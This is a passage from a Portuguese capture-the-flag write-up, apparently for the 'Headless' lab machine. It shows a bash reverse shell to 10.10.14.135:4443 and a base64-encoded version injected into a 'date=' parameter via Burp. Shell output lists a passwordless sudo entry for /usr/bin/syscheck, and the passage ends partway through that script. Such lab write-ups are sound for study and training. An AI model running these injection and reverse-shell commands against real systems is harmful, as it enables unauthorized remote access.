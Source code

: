 Usei esse payload em base64 pra obter reverse shell.

<https://n00br00t.github.io/sh/>  
`bash -i >& /dev/tcp/10.10.14.135/4443 0>&1`  

Ficando dessa forma no burp

`date=;echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzUvNDQ0MyAwPiYx'|base64 -d|bash`

Selecionei tudo após o `date=`  
Botão direito > Convert selection/URL/URL Encode all....

![alt text](/assets/img/headless/7.png)
![alt text](/assets/img/headless/8.png)

### user flag

![alt text](/assets/img/headless/9.png)

```shell
dvir@headless:~$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
dvir@headless:~$ 

Script syscheck

╰─ cat syscheck 
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
```